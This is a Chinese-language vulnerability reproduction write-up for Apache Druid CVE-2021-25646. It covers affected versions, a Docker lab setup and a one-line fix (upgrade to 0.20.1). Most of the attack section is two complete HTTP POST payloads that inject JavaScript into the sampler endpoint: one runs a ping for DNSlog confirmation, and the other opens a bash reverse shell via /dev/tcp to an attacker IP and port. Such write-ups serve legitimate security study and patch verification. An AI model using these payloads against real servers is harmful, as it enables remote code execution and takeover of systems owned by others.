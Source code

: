 # Apache Druid 远程代码执行漏洞（CVE-2021-25646）

# 漏洞概述

Apache Druid是美国阿帕奇软件（Apache）基金会的一款使用Java语言编写的、面向列的开源分布式数据库。

Apache Druid 0.20.0和更早的版本存在访问控制错误漏洞，该漏洞允许经过身份验证的用户强制Druid运行用户提供的JavaScript代码，并执行服务器进程特权的代码。



# 影响版本 



```
Apache Druid < 0.20.1
```



# 搭建环境



```
为了复现方便，这里使用docker搭建环境
docker search docker-druid #搜索镜像
docker pull fokkodriesprong/docker-druid #拉取镜像
docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid #启动镜像
```

注：如果大家拉取镜像比较慢可以配置一下国内镜像源，这里我使用的是阿里云的加速源URL为:https://cr.console.aliyun.com/



\## 本机访问IP:888端口显示该页面表示启动成功

![image-20210220145956286](resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220145956286.png)

# 漏洞复现

\## POC使用DNSlog检测是否可以执行命令



```

POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150109610](resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150109610.png)

\## 反弹shell

这里说一下踩的坑之前是用0.20.0版本做的复测，发现在0.20.0版本使用/bin/bash命令时服务器会报错,应该是做了过滤

![image-20210220150134585](resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150134585.png)

所以改用了0.17.0版本来进行测试，其他版本请自测



```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150159397](resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150159397.png)

**修复方式**

升级到最新版Apache Druid 0.20.1